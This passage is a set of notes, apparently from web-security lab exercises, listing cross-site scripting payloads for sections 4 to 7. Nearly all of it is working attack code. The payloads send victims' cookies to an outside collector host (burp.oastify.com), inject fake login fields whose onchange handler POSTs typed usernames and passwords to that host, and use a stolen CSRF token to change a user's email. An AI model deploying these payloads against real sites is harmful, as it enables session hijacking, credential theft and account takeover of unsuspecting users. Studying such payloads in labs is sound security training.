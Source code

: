 ### 4. Stored DOM XSS
>Function replaces first angle brakets only:
```
<><img src=1 onerror=alert(1)>
```
**Adapted version**
```
<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie">
```

### 5. Exploiting cross-site scripting to steal cookies
```
<script>document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</script>
```

### 6. Exploiting cross-site scripting to capture passwords
>You can create new form in comment section to steal passwords
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
>If you want them to be autocompleted
```
<input name="username" id="username" autocomplete="username">
<input type="password" id=”password” name="password" autocomplete="password" onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


>https://www.doyler.net/security-not-included/xss-password-stealing  
>https://medium.com/dark-roast-security/password-stealing-from-https-login-page-and-csrf-bypass-with-reflected-xss-76f56ebc4516


### 7. Exploiting XSS to perform CSRF
>There is protection against CSRF, so we need to use the other user's CSRF token in our payload
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() 
{    
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];    
var changeReq = new XMLHttpRequest();    
changeReq.open('post', '/my-account/change-email', true);    
changeReq.send('csrf='+token+'&email=test@test.com')};
</script>
```
